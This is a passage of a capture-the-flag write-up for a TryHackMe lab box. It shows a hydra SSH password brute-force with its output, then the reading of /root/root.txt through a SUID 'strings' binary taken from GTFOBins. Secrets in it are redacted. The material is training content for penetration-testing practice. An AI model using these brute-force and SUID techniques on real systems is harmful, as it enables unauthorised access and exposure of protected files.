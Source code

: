 
## Looking for valid credentials

Let's use hydar with the discovered username and passwords to find the right credentials
```
┌──(edward㉿repoman)-[~/Documents/tryhackme/jackofalltrades]
└─$ hydra -l **<username>** -P **<password list>** ssh://10.10.247.27:80                                                                                                                                         
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-20 00:38:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:1/p:25), ~2 tries per task
[DATA] attacking ssh://10.10.247.27:80/
[80][ssh] host: 10.10.247.27   login: **REDCATED**   password: **REDACTED**
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-20 00:38:46

```

## Finding the root flag

Normally the next step after gaining shell access is to escalte privileges.  I'm not sure if it was possible with this box, but I just took as far as getting the root flag.  I downloaded and ran linpeas.sh and find that the "strings" binary had the SUID bit set.  I headed over to [GTFOBins](https://gtfobins.github.io/) to see how to take advantage of this vulnerability.  To take advantage of this vulnerabilty, I set a local variable equal to the file I want to read like "/root/root.txt" and pass it to the strings binary while in the directory where strings is located, Reference: [suid](https://gtfobins.github.io/gtfobins/strings/#suid)  

```
jack@jack-of-all-trades:~$ which strings
/usr/bin/strings
jack@jack-of-all-trades:~$ cd /usr/bin
jack@jack-of-all-trades:/usr/bin$ LFILE=/root/root.txt
jack@jack-of-all-trades:/usr/bin$ ./strings "$LFILE"
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: **REDACTED**
```

